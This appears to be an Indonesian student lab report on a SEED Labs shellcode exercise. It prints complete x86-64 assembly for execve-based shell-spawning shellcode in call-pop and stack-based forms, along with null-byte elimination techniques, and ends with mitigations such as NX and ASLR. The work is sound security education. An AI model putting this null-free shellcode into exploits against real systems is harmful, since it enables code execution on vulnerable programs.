# R2 Buffer Overflow & Shellcode
# Shellcode
## Tujuan
Tujuan dari praktikum ini adalah untuk memahami konsep shellcode, bagaimana menulis dan mengeksekusi assembly code, serta memahami teknik untuk membuat shellcode yang dapat digunakan dalam eksploitasi seperti buffer overflow dengan menghindari karakter null dan mengelola address secara manual.
## Environment
- OS: SEED Ubuntu 20.04
- Tools:
    - nasm
    - ld
    - objdump
    - gdb
    - xxd
## Task 1 – Writing Assembly Code
### Langkah
1. Melihat isi file dengan perintah berikut:
```bash
cat hello.s
```
Pastikan berisi kode assembly hello world.
2. Compile file assembly menjadi object file dengan perintah berikut:
```bash
nasm -f elf64 hello.s -o hello.o
ls
```
3. Link object file menjadi executable dengan perintah berikut:
```bash
ld hello.o -o hello
ls
```
4. Menjalankan program dan melihat hasilnya:
```bash
./hello
```
5. Melakukan disassembly pada executable dengan perintah berikut:
```bash
objdump -Mintel -d hello.o
```
6. Melihat isi file biner dengan perintah berikut:
```bash
xxd -p -c 20 hello.o
```

### Dokumentasi Output

*Gambar 1. Langkah 1 Task 1*

*Gambar 2. Langkah 2 Task 1*

*Gambar 3. Langkah 3 Task 1*

*Gambar 4. Langkah 4 Task 1*

*Gambar 5. Langkah 5 Task 1*

*Gambar 6. Langkah 6 Task 1*

### Analisis
Program assembly berhasil dikompilasi menjadi object file dan executable menggunakan NASM dan linker. Setelah dijalankan, program menampilkan pesan "Hello, world!" sesuai dengan instruksi yang ditulis pada kode assembly. Melalui proses disassembly menggunakan objdump dan pemeriksaan file biner menggunakan xxd, dapat dilihat representasi machine code dari setiap instruksi yang nantinya dapat digunakan sebagai shellcode.

---

## Task 2.a – Understand The Code
### Langkah
1. Membuka kode program dengan perintah berikut:
```bash
cat mysh64.s
```
2. Compile kode program menjadi object file dengan perintah berikut:
```bash
nasm -g -f elf64 -o mysh64.o mysh64.s
ls
```
3. Link object file menjadi executable dengan perintah berikut:
```bash
ld --omagic -o mysh64 mysh64.o
ls
```
4. Menjalankan program dan melihat hasilnya:
```bash
./mysh64
```
Jika berhasil:
```bash
whoami
```
5. Memasuki debugger gdb dengan perintah berikut:
```bash
gdb mysh64
```
6. Mengatur breakpoint dan menjalankan program dengan perintah berikut:
```bash
b one
run
```
7. Melihat isi dari stack dengan perintah berikut:
```bash
x/5gx $rsp
```
8. Melihat isi dari register dengan perintah berikut:
```bash
p/x $rbx
```
9. Menjalankan instruksi tahap demi tahap dengan perintah berikut:
```bash
si
```

### Dokumentasi Output

*Gambar 1. Langkah 1 Task 2.a*

*Gambar 2. Langkah 2 Task 2.a*

*Gambar 3. Langkah 3 Task 2.a*

*Gambar 4. Langkah 4 Task 2.a*

*Gambar 5. Langkah 5 Task 2.a*

*Gambar 6. Langkah 6 Task 2.a*

*Gambar 7. Langkah 7 Task 2.a*

*Gambar 8. Langkah 8 Task 2.a*

*Gambar 9. Langkah 9 Task 2.a*


### Analisis
Program berhasil menjalankan shell melalui system call execve(). Alamat string "/bin/sh" diperoleh menggunakan kombinasi instruksi call dan pop, dimana instruksi call menyimpan alamat string ke stack dan instruksi pop mengambil alamat tersebut ke register. Teknik ini memungkinkan shellcode memperoleh alamat data tanpa harus menggunakan alamat absolut.

---

## Task 2.b – Eliminate Zeros
### Langkah
1. Melihat machine code dengan perintah berikut:
```bash
objdump -Mintel -d mysh64
```
Cari byte:
```bash
00
```
Identifikasi instruksi yang menghasilkan nol.
```bash
mov rax,0
mov rdx,0
```
2. Edit kode program dengan perintah "nano" dan ubah instruksi:
```bash
nano mysh64.s
```
Ganti:
```bash
mov rax,0
mov rdx,0
```
menjadi:
```bash
xor rax,rax
xor rdx,rdx
```
3. Compile ulang file program dan lihat hasilnya:
```bash
nasm -f elf64 mysh64.s -o mysh64.o
ld --omagic -o mysh64 mysh64.o
ls
```
4. Mengecek kembali machine code dengan perintah berikut:
```bash
objdump -Mintel -d mysh64
```
### Dokumentasi Output

*Gambar 1. Langkah 1 Task 2.b*

*Gambar 2. Langkah 2 Task 2.b*

*Gambar 3. Langkah 3 Task 2.b*

*Gambar 4. Langkah 4 Task 2.b*

### Analisis
Shellcode awal masih mengandung beberapa byte bernilai 0x00 yang dapat menyebabkan masalah pada serangan berbasis string seperti buffer overflow. Untuk menghilangkan byte tersebut digunakan instruksi alternatif seperti xor untuk menghasilkan nilai nol dan mengganti karakter terminator sementara dengan nilai selain nol. Setelah dimodifikasi, shellcode dapat dijalankan tanpa mengandung byte 0x00 pada machine code.

---

## Task 2.c – Run More Complicated Command
### Langkah
1. Menduplikasi file dengan perintah berikut:
```bash
ls
cp mysh64.s task2c.s
ls
```
2. Mengubah kode shellcode di file task2c.s dengan perintah "nano":
```bash
nano task2c.s
```
replace isi nya dengan ini:
```c
section .text
global _start

_start:
BITS 64
jmp short two

one:
    pop rbx

    xor rax,rax

    ; argv[0] = "/bin/sh"
    mov [rbx+31],rbx

    ; argv[1] = "-c"
    lea rcx,[rbx+8]
    mov [rbx+39],rcx

    ; argv[2] = "echo hello; ls -la"
    lea rcx,[rbx+11]
    mov [rbx+47],rcx

    ; argv[3] = NULL
    mov [rbx+55],rax

    ; ubah terminator 0xff menjadi 0x00
    mov [rbx+7],al
    mov [rbx+10],al
    mov [rbx+29],al

    ; execve arguments
    mov rdi,rbx
    lea rsi,[rbx+31]

    xor rdx,rdx

    xor rax,rax
    mov al,59

    syscall

two:
    call one

    db '/bin/sh',0xff
    db '-c',0xff
    db 'echo hello; ls -la',0xff

    db 'AAAAAAAA'
    db 'BBBBBBBB'
    db 'CCCCCCCC'
    db 'DDDDDDDD'
```
3. Compile file shellcode menjadi executable dengan perintah berikut:
```bash
nasm -f elf64 task2c.s -o task2c.o
ld --omagic -o task2c task2c.o
```
4. Menjalankan program dan melihat hasilnya:
```bash
./task2c
```

### Dokumentasi Output

*Gambar 1. Langkah 1 Task 2.c*

*Gambar 2. Langkah 2 Task 2.c*

*Gambar 3. Langkah 3 Task 2.c*

*Gambar 4. Langkah 4 Task 2.c*

### Analisis
Shellcode berhasil menjalankan perintah yang lebih kompleks menggunakan program /bin/bash dengan parameter -c. Array argv dibentuk agar bash dapat menerima dan mengeksekusi string perintah yang diberikan. Hasil eksekusi menunjukkan bahwa shellcode tidak hanya dapat membuka shell tetapi juga menjalankan perintah tertentu secara otomatis.

---

## Task 2.d – Environment Variables
### Langkah
1. Menduplikasi file dengan perintah berikut:
```bash
cp task2c.s myenv64.s
ls
```
2. Mengubah kode shellcode di file myenv64.s dengan perintah "nano":
```bash
nano myenv64.s
```
replace isi nya dengan ini:
```c
section .text
global _start

_start:
    BITS 64
    jmp short two

one:
    pop rbx

    xor rax, rax

    ; argv[0] = "/usr/bin/env"
    mov [rbx+49], rbx

    ; argv[1] = NULL
    mov [rbx+57], rax

    ; env[0] = "aaa=hello"
    lea rcx, [rbx+13]
    mov [rbx+65], rcx

    ; env[1] = "bbb=world"
    lea rcx, [rbx+23]
    mov [rbx+73], rcx

    ; env[2] = "ccc=hello world"
    lea rcx, [rbx+33]
    mov [rbx+81], rcx

    ; env[3] = NULL
    mov [rbx+89], rax

    ; ubah terminator 0xff menjadi 0x00
    mov [rbx+12], al
    mov [rbx+22], al
    mov [rbx+32], al
    mov [rbx+48], al

    ; filename
    mov rdi, rbx

    ; argv
    lea rsi, [rbx+49]

    ; envp
    lea rdx, [rbx+65]

    ; execve syscall
    xor rax, rax
    mov al, 59

    syscall

two:
    call one

    db '/usr/bin/env',0xff

    db 'aaa=hello',0xff
    db 'bbb=world',0xff
    db 'ccc=hello world',0xff

    db 'AAAAAAAA'
    db 'BBBBBBBB'

    db 'CCCCCCCC'
    db 'DDDDDDDD'
    db 'EEEEEEEE'
    db 'FFFFFFFF'
```
3. Compile file shellcode menjadi executable dan lihat hasilnya:
```bash
nasm -f elf64 myenv64.s -o myenv64.o
ld --omagic -o myenv64 myenv64.o
ls
```
4. Menjalankan program dan melihat hasilnya:
```bash
./myenv64
```

### Dokumentasi Output

*Gambar 1. Langkah 1 Task 2.d*

*Gambar 2. Langkah 2 Task 2.d*

*Gambar 3. Langkah 3 Task 2.d*

*Gambar 4. Langkah 4 Task 2.d*

### Analisis
Shellcode berhasil meneruskan environment variable ke program yang dijalankan melalui parameter ketiga pada system call execve(). Variabel yang dibuat secara manual dapat ditampilkan oleh program /usr/bin/env. Hal ini menunjukkan bahwa shellcode dapat mengontrol environment yang diterima oleh proses baru.

---

## Task 3.a
### Langkah
1. Mengecek isi file dengan perintah berikut:
```bash
cat another_sh64.s
```
2. Mengubah kode shellcode di file another_sh64.s dengan perintah "nano":
```bash
nano another_sh64.s
```
replace isi nya dengan ini:
```c
section .text
global _start

_start:

    xor rdx, rdx

    ; command string: "echo hello; ls -la"
    push rdx

    ; "la"
    mov ax, 0x616c
    push rax

    ; "lo; ls -"
    mov rax, 0x2d20736c203b6f6c
    push rax

    ; "echo hel"
    mov rax, 0x6c6568206f686365
    push rax

    mov rbx, rsp


    ; "-c"
    push rdx
    push word 0x632d
    mov rcx, rsp

    ; "/bin//sh"
    push rdx
    mov rax, '/bin//sh'
    push rax
    mov rdi, rsp

    ; argv[]
    push rdx
    push rbx
    push rcx
    push rdi

    mov rsi, rsp

    xor rax, rax
    mov al, 59
    syscall
```
3. Compile file shellcode menjadi executable dan lihat hasilnya:
```bash
nasm -f elf64 another_sh64.s -o another_sh64.o
ld --omagic -o another_sh64 another_sh64.o
ls
```
4. Menjalankan program dan melihat hasilnya:
```bash
./another_sh64
```
5. Mengecek byte 00 pada object file dengan perintah berikut:
```bash
objdump -Mintel -d another_sh64.o
```
### Dokumentasi Output

*Gambar 1. Langkah 1 Task 3.a*

*Gambar 2. Langkah 2 Task 3.a*

*Gambar 3. Langkah 3 Task 3.a*

*Gambar 4. Langkah 4 Task 3.a*

*Gambar 5. Langkah 5 Task 3.a*

### Analisis
Pada task ini digunakan **stack-based approach** untuk menjalankan perintah:

```bash
/bin/sh -c "echo hello; ls -la"
```

Berbeda dengan task sebelumnya yang menggunakan teknik call-pop, pada task ini seluruh string dan array `argv` dibangun secara dinamis di dalam stack. String `"/bin//sh"`, `"-c"`, dan `"echo hello; ls -la"` terlebih dahulu disimpan ke stack, kemudian alamat masing-masing string digunakan untuk membentuk array:

```c
argv[0] = "/bin//sh";
argv[1] = "-c";
argv[2] = "echo hello; ls -la";
argv[3] = NULL;
```

Setelah seluruh argumen tersusun dengan benar, shellcode memanggil system call `execve()` untuk mengeksekusi perintah tersebut. Hasil eksekusi menunjukkan output `hello` diikuti daftar file pada direktori saat ini, sehingga dapat disimpulkan bahwa shellcode berhasil berjalan sesuai tujuan menggunakan pendekatan stack-based.


---

## Task 3.b
### Analisis
Pada praktikum ini digunakan dua pendekatan berbeda untuk membangun shellcode, yaitu Call-Pop Approach dan Stack-Based Approach.

Pendekatan pertama, yaitu Call-Pop Approach, menyimpan seluruh string langsung di dalam shellcode menggunakan instruksi db. Alamat string diperoleh menggunakan kombinasi instruksi call dan pop. Kelebihan utama pendekatan ini adalah struktur string lebih mudah dibaca dan dikelola karena seluruh data berada pada satu lokasi yang jelas. Selain itu, teknik ini memudahkan penggunaan placeholder seperti 0xff yang kemudian diubah menjadi 0x00 saat runtime untuk menghindari null byte pada shellcode.

Pendekatan kedua, yaitu Stack-Based Approach, membangun string dan array argv secara dinamis pada stack. Pendekatan ini tidak memerlukan perhitungan offset seperti pada teknik call-pop karena alamat string dapat diperoleh langsung dari register stack pointer (rsp). Shellcode yang dihasilkan juga cenderung lebih ringkas.

Namun, stack-based approach memiliki beberapa kekurangan. Untuk string yang panjang, data harus dibagi menjadi beberapa blok dan di-push ke stack dalam urutan terbalik. Kesalahan kecil dalam pembagian blok dapat menyebabkan string terbentuk tidak sesuai sehingga proses debugging menjadi lebih sulit. Selain itu, menghindari byte nol (0x00) juga lebih menantang karena beberapa instruksi dapat menghasilkan null byte pada machine code.

Berdasarkan hasil praktikum, pendekatan yang lebih saya sukai adalah Call-Pop Approach. Alasan utamanya adalah karena lebih mudah digunakan untuk menangani string yang panjang dan kompleks seperti:

```bash
/bin/sh -c "echo hello; ls -la"
```
Selain itu, proses debugging dan penghilangan null byte juga lebih sederhana dibandingkan dengan pendekatan stack-based yang memerlukan pengaturan data secara lebih hati-hati.

---


## Mitigasi
* Terapkan proteksi memori seperti NX (Non-Executable Stack) untuk mencegah eksekusi shellcode pada stack.
* Gunakan ASLR (Address Space Layout Randomization) untuk mempersulit penyerang dalam memprediksi alamat memori.
* Aktifkan Stack Canary untuk mendeteksi terjadinya buffer overflow sebelum alur program dialihkan.
* Lakukan validasi panjang input dan hindari penggunaan fungsi yang rentan terhadap buffer overflow.
* Terapkan prinsip Least Privilege agar dampak eksploitasi dapat diminimalkan.
* Gunakan compiler hardening seperti PIE, RELRO, dan Stack Protector.
* Lakukan audit kode secara berkala untuk menemukan kerentanan buffer overflow dan command injection.
* Hindari memberikan hak eksekusi pada area memori yang hanya digunakan untuk menyimpan data.

---

## Kesimpulan

Pada praktikum ini telah dipelajari cara menulis, memodifikasi, dan mengeksekusi shellcode menggunakan bahasa assembly pada arsitektur x86-64. Praktikum dimulai dari pembuatan program assembly sederhana, kemudian dilanjutkan dengan analisis shellcode yang menggunakan system call `execve()` untuk menjalankan shell.

Selain itu, dilakukan optimasi shellcode dengan menghilangkan byte nol (`0x00`) yang dapat mengganggu proses eksploitasi berbasis string. Shellcode juga dimodifikasi agar dapat menjalankan perintah yang lebih kompleks serta meneruskan environment variable ke proses baru. Pada Task 3 digunakan pendekatan stack-based untuk membangun string dan array `argv` secara dinamis di dalam stack sebelum memanggil `execve()`.

Hasil praktikum menunjukkan bahwa shellcode dapat digunakan untuk mengontrol program yang dijalankan, argumen yang diberikan, serta environment yang digunakan oleh proses baru. Praktikum ini memberikan pemahaman mengenai cara kerja shellcode dan tantangan yang dihadapi dalam pengembangannya, terutama terkait pengelolaan alamat memori, penyusunan argumen, dan penghilangan null byte.
